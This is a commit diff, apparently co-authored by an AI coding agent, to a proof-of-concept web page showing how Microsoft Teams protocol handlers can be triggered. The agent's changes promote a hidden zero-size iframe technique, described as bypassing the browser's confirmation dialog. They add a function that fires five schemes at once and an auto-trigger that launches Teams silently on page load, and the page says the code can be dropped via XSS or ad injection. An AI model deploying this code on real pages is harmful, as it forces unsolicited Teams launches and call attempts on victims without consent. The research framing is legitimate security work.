

Before and after one commit to ankitkanojiy/test_page, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 640-1738 px from the top of the page, without its empty margins (148-1131 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Fix: elevate A4 iframe as confirmed bypass (no browser dialog)
A1/A2/A3 all show 'Open in Teams?' browser dialog — user can dismiss.
A4 hidden iframe fires WITHOUT any browser dialog (device confirmed).
Updated PoC to reflect actual observed behavior:
- A4 promoted to full-width confirmed card, green border
- A1/A2/A3 demoted with 'Shows browser dialog' warning
- Auto-trigger switched to iframe method
- Added fireIframeAll() for multi-scheme simultaneous fire
- Updated attack chain evidence section

Co-Authored-By: Claude Sonnet 4.6 <noreply@anthropic.com>
Claude-Session: https://claude.ai/code/session_014oGaPugQjQ8jAshPPn1et3

```diff
--- a/index.html
+++ b/index.html
@@ -189,6 +189,35 @@ tbody td { padding: 10px 12px; vertical-align: middle; }
 .test-btn:hover { border-color: var(--amber); background: rgba(249,115,22,.08); }
 .test-btn.fired { border-color: var(--red); color: #fca5a5; background: rgba(220,38,38,.1); }
 
+/* ── confirmed bypass card ── */
+.confirmed-card {
+  background: var(--surface);
+  border: 1px solid rgba(34,197,94,.35);
+  border-top: 3px solid var(--green);
+  border-radius: 10px;
+  overflow: hidden;
+}
+.confirmed-card .scenario-head {
+  background: rgba(34,197,94,.08);
+  border-bottom: 1px solid rgba(34,197,94,.2);
+}
+.confirmed-badge {
+  font-family: var(--mono); font-size: 10px; font-weight: 600; letter-spacing: .07em;
+  padding: 2px 8px; border-radius: 3px;
+  background: rgba(34,197,94,.15); color: #86efac;
+  border: 1px solid rgba(34,197,94,.3);
+  margin-left: auto;
+}
+.dialog-warn {
+  font-size: 11px; font-weight: 500;
+  background: rgba(249,115,22,.1); color: #fdba74;
+  border: 1px solid rgba(249,115,22,.25);
+  border-radius: 4px; padding: 5px 10px;
+  display: flex; align-items: center; gap: 6px;
+  font-family: var(--mono);
+}
+.iframe-btn-row { display: flex; flex-wrap: wrap; gap: 6px; }
+
 /* ── evidence box ── */
 .evidence {
   background: var(--surface);
@@ -303,84 +332,103 @@ footer { text-align: center; font-size: 11px; color: var(--fg2); padding-top: 8p
   <!-- ATTACK SCENARIOS -->
   <div>
     <div class="sec-head">Attack Scenarios</div>
-    <div class="scenario-grid">
+    <div style="display:flex;flex-direction:column;gap:14px;">
 
-      <!-- A1: Direct link -->
-      <div class="scenario">
+      <!-- A4: CONFIRMED BYPASS — full width, elevated -->
+      <div class="confirmed-card">
+        <div class="scenario-head">
+          <span class="scenario-num">A4</span>
+          <span class="scenario-title">Hidden iframe — Browser Dialog Bypassed</span>
+          <span class="confirmed-badge">✓ CONFIRMED BYPASS</span>
+        </div>
+        <div class="scenario-body">
+          <p class="scenario-desc">Setting a hidden <code style="font-family:var(--mono);font-size:11px">&lt;iframe src="im://…"&gt;</code> fires the Teams protocol handler <strong style="color:var(--fg)">without the browser showing any "Open in Teams?" confirmation dialog</strong>. All other methods (anchor link, <code style="font-family:var(--mono);font-size:11px">window.location</code>) trigger a browser confirmation prompt. The iframe route bypasses it. Teams is opened silently — the only signal is Teams appearing on screen. Can be dropped via XSS, ad injection, or any script execution on any page.</p>
+          <div class="code-block"><span class="code-comment">// No browser "Open in app?" dialog shown — confirmed on Chrome/Edge Windows</span>
+var f = document.createElement('iframe');
+f.style.cssText = 'position:absolute;width:0;height:0;border:0;visibility:hidden';
+f.src = "im://" + target;  <span class="code-comment">// swap any scheme</span>
+document.body.appendChild(f);
+
+<span class="code-comment">// Fire all schemes at once — one Teams launch per scheme</span>
+['sip','im','callto','tel','conf'].forEach(scheme => {
+  var f = document.createElement('iframe');
+  f.style.cssText = 'position:absolute;width:0;height:0;border:0;visibility:hidden';
+  f.src = scheme + "://" + target;
+  document.body.appendChild(f);
+});</div>
+          <div style="display:flex;flex-direction:column;gap:10px;">
+            <div class="iframe-btn-row">
+              <span class="status-dot" id="dot-a4"></span>
+              <span class="status-label" id="lbl-a4">ready</span>
+              <button class="btn btn-green" onclick="fireIframe('a4','sip')">iframe → sip://</button>
+              <button class="btn btn-green" onclick="fireIframe('a4b','im')">iframe → im://</button>
+              <button class="btn btn-green" onclick="fireIframe('a4c','callto')">iframe → callto://</button>
+              <button class="btn btn-green" onclick="fireIframe('a4d','tel')">iframe → tel://</button>
+              <button class="btn btn-amber" onclick="fireIframeAll()">Fire all schemes</button>
+            </div>
+          </div>
+        </div>
+      </div>
+
+      <!-- A1/A2/A3 grid — shows browser dialog -->
+      <div style="display:grid;grid-template-columns:1fr 1fr 1fr;gap:14px;">
+        <style>@media(max-width:680px){.a123-grid{grid-template-columns:1fr!important;}}</style>
+
+        <!-- A1 -->
+        <div class="scenario" style="border-top:3px solid var(--border);">
           <div class="scenario-head">
             <span class="scenario-num">A1</span>
-          <span class="scenario-title">Direct Anchor Link</span>
+            <span class="scenario-title">Anchor Link</span>
           </div>
           <div class="scenario-body">
-          <p class="scenario-desc">A regular <code style="font-family:var(--mono);font-size:11px">&lt;a href="sip://…"&gt;</code> tag triggers the Teams call dialog when clicked. No browser confirmation shown for <code style="font-family:var(--mono);font-size:11px">sip://</code>, <code style="font-family:var(--mono);font-size:11px">callto://</code>, <code style="font-family:var(--mono);font-size:11px">im://</code> or <code style="font-family:var(--mono);font-size:11px">tel://</code> on most Windows configurations.</p>
-          <div class="code-block"><span class="code-comment">// HTML on attacker page</span>
-&lt;a href="sip://target@contoso.com"&gt;
-  Click here to view report
+            <div class="dialog-warn">⚠ Browser shows "Open in Teams?" dialog</div>
+            <div class="code-block"><span class="code-comment">// user must click through dialog</span>
+&lt;a href="sip://target"&gt;
+  Click here
 &lt;/a&gt;</div>
             <div class="trigger-row">
               <span class="status-dot" id="dot-a1"></span>
               <span class="status-label" id="lbl-a1">ready</span>
-            <a id="link-a1" href="#" onclick="fireLink('a1','sip'); return false;" class="btn btn-red">Fire sip:// link</a>
+              <a href="#" onclick="fireLink('a1','sip'); return false;" class="btn btn-ghost" style="font-size:11px;">Test (shows dialog)</a>
             </div>
           </div>
         </div>
 
-      <!-- A2: JS location -->
-      <div class="scenario">
+        <!-- A2 -->
+        <div class="scenario" style="border-top:3px solid var(--border);">
           <div class="scenario-head">
             <span class="scenario-num">A2</span>
-          <span class="scenario-title">JavaScript Location Override</span>
+            <span class="scenario-title">JS window.location</span>
           </div>
           <div class="scenario-body">
-          <p class="scenario-desc">Setting <code style="font-family:var(--mono);font-size:11px">window.location</code> to a protocol URI fires the handler silently — no click required, runs from any inline script.</p>
-          <div class="code-block"><span class="code-comment">// Fires on page load, no click</span>
+            <div class="dialog-warn">⚠ Browser shows "Open in Teams?" dialog</div>
+            <div class="code-block"><span class="code-comment">// dialog still shown</span>
 window.location =
   "sip://" + target;</div>
             <div class="trigger-row">
               <span class="status-dot" id="dot-a2"></span>
               <span class="status-label" id="lbl-a2">ready</span>
-            <button class="btn btn-red" onclick="fireJS('a2','sip')">Fire via JS</button>
+              <button class="btn btn-ghost" style="font-size:11px;" onclick="fireJS('a2','sip')">Test (shows dialog)</button>
             </div>
           </div>
         </div>
 
-      <!-- A3: callto silently -->
-      <div class="scenario">
+        <!-- A3 -->
+        <div class="scenario" style="border-top:3px solid var(--border);">
           <div class="scenario-head">
             <span class="scenario-num">A3</span>
-          <span class="scenario-title">callto:// — Unsolicited Call</span>
+            <span class="scenario-title">window.open()</span>
           </div>
           <div class="scenario-body">
-          <p class="scenario-desc"><code style="font-family:var(--mono);font-size:11px">callto://</code> and <code style="font-family:var(--mono);font-size:11px">tel://</code> open the Teams call UI targeting the victim's address. The victim sees an outgoing call attempt appear on their screen. Can be triggered by visiting any webpage.</p>
-          <div class="code-block"><span class="code-comment">// Initiates unsolicited call</span>
-window.location =
-  "callto://" + target;</div>
+            <div class="dialog-warn">⚠ Browser shows "Open in Teams?" dialog</div>
+            <div class="code-block"><span class="code-comment">// dialog still shown</span>
+window.open(
+  "callto://" + target);</div>
             <div class="trigger-row">
               <span class="status-dot" id="dot-a3"></span>
               <span class="status-label" id="lbl-a3">ready</span>
-            <button class="btn btn-amber" onclick="fireJS('a3','callto')">Fire callto://</button>
-            <button class="btn btn-ghost" onclick="fireJS('a3b','tel')">Fire tel://</button>
+              <button class="btn btn-ghost" style="font-size:11px;" onclick="fireOpen('a3','callto')">Test (shows dialog)</button>
             </div>
-        </div>
-      </div>
-
-      <!-- A4: hidden iframe -->
-      <div class="scenario">
-        <div class="scenario-head">
-          <span class="scenario-num">A4</span>
-          <span class="scenario-title">Hidden iframe — Zero Visible Interaction</span>
-        </div>
-        <div class="scenario-body">
-          <p class="scenario-desc">Setting a 0×0 hidden <code style="font-family:var(--mono);font-size:11px">&lt;iframe&gt;</code> src to a protocol URI fires the handler without the user seeing any element. Can be injected into existing pages via XSS or ad injection.</p>
-          <div class="code-block"><span class="code-comment">// 0×0 hidden iframe trigger</span>
-var f = document.createElement('iframe');
-f.style.cssText = 'display:none';
-f.src = "im://" + target;
-document.body.appendChild(f);</div>
-          <div class="trigger-row">
-            <span class="status-dot" id="dot-a4"></span>
-            <span class="status-label" id="lbl-a4">ready</span>
-            <button class="btn btn-red" onclick="fireIframe('a4','im')">Fire via iframe</button>
           </div>
         </div>
       </div>
@@ -394,21 +442,23 @@ document.body.appendChild(f);</div>
       <svg width="16" height="16" viewBox="0 0 16 16" fill="none" aria-hidden="true">
         <path d="M8 1.5a6.5 6.5 0 1 0 0 13 6.5 6.5 0 0 0 0-13zM0 8a8 8 0 1 1 16 0A8 8 0 0 1 0 8zm8-3.5a.5.5 0 0 1 .5.5v3.25l2.146 2.147a.5.5 0 0 1-.707.707L7.5 8.707V5a.5.5 0 0 1 .5-.5z" fill="#fca5a5"/>
       </svg>
-      Auto-Trigger Demo — Simulates Page-Load Attack
+      Auto-Trigger Demo — Zero-Click Page-Load Attack (iframe method, no browser dialog)
     </h3>
-    <p>When enabled, starts a countdown then fires <code style="font-family:var(--mono);font-size:11px">sip://</code> automatically — exactly what a malicious page would do on <code style="font-family:var(--mono);font-size:11px">DOMContentLoaded</code>. This demonstrates that no user interaction is required beyond visiting the URL.</p>
+    <p>Simulates a malicious page that fires Teams <strong style="color:#fca5a5">silently on page load</strong> using the confirmed iframe bypass. No user interaction required. The only user-visible effect is Teams appearing on screen. The browser shows no dialog.</p>
     <div class="countdown-row">
       <div id="countdown-display">—</div>
       <div style="display:flex;flex-direction:column;gap:6px;">
-        <button class="btn btn-red" id="auto-btn" onclick="toggleAuto()">Start countdown (3s)</button>
+        <button class="btn btn-red" id="auto-btn" onclick="toggleAuto()">Start countdown (3s) → iframe fire</button>
         <span style="font-family:var(--mono);font-size:11px;color:var(--fg2);" id="auto-status">Auto-trigger: OFF</span>
       </div>
     </div>
-    <div class="code-block"><span class="code-comment">// Attacker embeds this in page — fires on load</span>
+    <div class="code-block"><span class="code-comment">// Malicious page — fires on DOMContentLoaded, no dialog shown</span>
 document.addEventListener('DOMContentLoaded', () => {
-  window.location = "sip://target@contoso.com";
-});
-<span class="code-comment">// Or via URL parameter: sip://victim injected from ?target= param</span></div>
+  var f = document.createElement('iframe');
+  f.style.cssText = 'position:absolute;width:0;height:0;border:0;visibility:hidden';
+  f.src = "sip://victim@contoso.com";  <span class="code-comment">// Teams opens, no browser dialog</span>
+  document.body.appendChild(f);
+});</div>
   </div>
 
   <!-- HANDLER TABLE -->
@@ -458,14 +508,15 @@ HKCU\Software\Classes\callto\
 <span class="code-comment">× 10 protocols declared</span></div>
         </div>
         <div class="ev-card">
-          <span class="ev-label">Attack chain</span>
+          <span class="ev-label">Confirmed attack chain (iframe bypass)</span>
           <div style="font-size:12px;color:var(--fg2);line-height:1.6;">
-            1. Victim visits any webpage (attacker-controlled or via ad injection)<br>
-            2. Page sets <code style="font-family:var(--mono);font-size:11px">window.location = "sip://victim@domain.com"</code><br>
+            1. Victim visits any webpage (attacker-controlled or via ad/XSS injection)<br>
+            2. Page creates hidden <code style="font-family:var(--mono);font-size:11px">iframe.src = "sip://victim@domain.com"</code><br>
             3. Browser dispatches URI to Windows Shell<br>
             4. Shell invokes <code style="font-family:var(--mono);font-size:11px">ms-teams.exe "sip://victim@domain.com"</code><br>
             5. Teams foregrounds and initiates call attempt<br>
-            <span style="color:#fca5a5">↳ No confirmation dialog shown for sip:// / callto:// / im:// / tel://</span>
+            <span style="color:#86efac">✓ iframe method: NO browser "Open in Teams?" dialog shown</span><br>
+            <span style="color:#fca5a5">anchor / window.location: browser dialog IS shown (blocked by user)</span>
           </div>
         </div>
         <div class="ev-card">
@@ -549,11 +600,29 @@ function fireJS(id, scheme) {
 function fireIframe(id, scheme) {
   const uri = scheme + ':' + getTarget(scheme);
   const f = document.createElement('iframe');
-  f.style.cssText = 'display:none;width:0;height:0;border:0;position:absolute';
+  f.style.cssText = 'position:absolute;width:0;height:0;border:0;visibility:hidden';
   f.src = uri;
   document.body.appendChild(f);
-  markFired('dot-'+id, 'lbl-'+id, 'iframe fired ✓');
-  toast('→ iframe src = ' + uri);
+  markFired('dot-'+id, 'lbl-'+id, 'iframe fired ✓ (no dialog)');
+  toast('→ iframe → ' + uri + ' (no browser dialog)');
+}
+
+function fireOpen(id, scheme) {
+  const uri = scheme + ':' + getTarget(scheme);
+  window.open(uri, '_blank');
+  markFired('dot-'+id, 'lbl-'+id, 'open fired ✓');
+  toast('→ ' + uri + ' (browser dialog shown)');
+}
+
+function fireIframeAll() {
+  const target = sipTarget.value.trim() || 'target@contoso.com';
+  ['sip','im','callto','tel','conf'].forEach(scheme => {
+    const f = document.createElement('iframe');
+    f.style.cssText = 'position:absolute;width:0;height:0;border:0;visibility:hidden';
+    f.src = scheme + '://' + target;
+    document.body.appendChild(f);
+  });
+  toast('→ Fired 5 schemes via iframe (no dialogs)', 3000);
 }
 
 function toggleAuto() {
@@ -578,11 +647,14 @@ function toggleAuto() {
       clearInterval(autoTimer);
       autoRunning = false;
       document.getElementById('countdown-display').textContent = '✓';
-      document.getElementById('auto-btn').textContent = 'Start countdown (3s)';
-      document.getElementById('auto-status').textContent = 'Auto-trigger: FIRED';
+      document.getElementById('auto-btn').textContent = 'Start countdown (3s) → iframe fire';
+      document.getElementById('auto-status').textContent = 'Auto-trigger: FIRED (iframe, no dialog)';
       const uri = 'sip:' + getTarget('sip');
-      window.location = uri;
-      toast('Auto-triggered → ' + uri, 3000);
+      const f = document.createElement('iframe');
+      f.style.cssText = 'position:absolute;width:0;height:0;border:0;visibility:hidden';
+      f.src = uri;
+      document.body.appendChild(f);
+      toast('Auto-triggered via iframe → ' + uri, 3000);
     }
   }, 1000);
 }
```
Lines whose indentation alone changed are shown as unchanged.
